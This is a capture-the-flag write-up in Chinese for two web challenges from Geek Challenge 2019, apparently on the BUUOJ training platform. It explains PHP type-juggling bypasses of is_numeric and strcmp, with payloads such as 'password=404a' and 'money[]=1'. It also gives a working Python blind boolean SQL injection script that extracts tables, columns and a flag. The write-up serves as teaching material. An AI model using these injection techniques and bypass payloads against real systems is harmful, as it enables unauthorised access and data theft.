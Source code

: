 # 极客大挑战 2019

## Web

### BuyFlag

通过查看 `index.php` 源代码可以发现 `pay.php`，通过查看 `pay.php` 源代码可以发现以下内容

```php
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
```

通过构造 payload `password="404"` 发现并没有什么反应，然后继续在 NetWork 里面寻找答案。在寻找的过程中，发现 Request Headers 内包含 Cookie `user=0` ，故尝试修改为 `user=1` 后出现新提示 Wrong Password。因此重新构造 payload `password=404a` 发现成功力，但是提示需要给钱（

> is\_numeric() 函数用于检测变量是否为数字或数字字符串
>
> 但当一个整型和一个其他类型行比较的时候，会先把其他类型数字化再比，因此可以通过空字符 `%00` 或字母实现绕过
>
> strcmp() 函数用于比较两个字符串
>
> 若传入的参数为数组则返回 NULL ，NULL==0 为 bool(true)，因此可以通过传入数组进行绕过

尝试构造 payload `money=100000000` 发现提示 Nember lenth is too long，故修改 payload 为 `money[]=1`

### FinalSQL

通过测试发现并不存在单双引号，空格、`and` 也被过滤了，`/**/` 绕过也不行，并不存在报错注入，尝试布尔注入。

```python
import time
import requests

url = 'http://f5e437d3-ba10-41e1-a677-dab0531a7037.node4.buuoj.cn:81/search.php'
results = []
session = requests.Session()

for i in range(1,43):
    start = 32
    end = 127
    for j in range(start, end):
        mid = (start + end) // 2
        data = {"id": f"0^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))>{mid})"}
        time.sleep(0.1)
        ret = session.get(url, params=data)
        #print(ret.text)
        if 'NO!' in ret.text:
            start = mid
        else:
            end = mid
        if (end - start) <= 1:
            results.append(chr(end))
            print(''.join(results))
            break
```

可以得到表名 `F1naI1y,Flaaaaag` ，通过修改 data 如下

```python
data = {"id": f"0^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='Flaaaaag')),{i},1))>{mid})"}
```

可以得到列名 `id,fl4gawsl` ，通过修改 data 如下

```python
data = {"id": f"0^(ascii(substr((select(group_concat(fl4gawsl))from(Flaaaaag)),{i},1))>{mid})"}
```

得到回显 `NO!!Not!this!!Click!others~~~,yingyingying` ，看来被骗了，那就修改 data 如下

```python
data = {"id": f"0^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),{i},1))>{mid})"}
```

得到回显 `id,username,password` ，通过修改 data 如下

```python
data = {"id": f"0^(ascii(substr((select(group_concat(username))from(F1naI1y)),{i},1))>{mid})"}
```

得到回显 `mygod,welcome,site,site,site,site,Syc,finally,flag` ，看来离成功更进一步了（确信），修改 data 如下

```python
data = {"id": f"0^(ascii(substr((select(group_concat(password))from(F1naI1y)where(username='flag')),{i},1))>{mid})"}
```

得到回显 `flag{301e4296-b8db-462e-a4e0-6253e9b8dafe}` 。
